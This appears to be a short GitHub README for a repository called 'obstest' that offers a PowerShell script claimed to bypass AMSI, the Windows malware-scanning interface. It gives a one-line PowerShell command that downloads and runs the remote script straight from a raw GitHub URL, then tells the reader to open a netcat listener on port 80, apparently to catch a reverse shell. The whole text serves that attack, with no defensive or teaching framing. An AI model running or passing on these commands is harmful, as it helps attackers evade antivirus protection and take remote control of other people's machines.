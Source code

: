 # obstest
This is a powershell script that bypass amsi :)

How to execute ?
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/AeroWw/obtest/script.ps1')

set up a listerner 
nc -lvnp 80

Remember to stop any service running on port 80
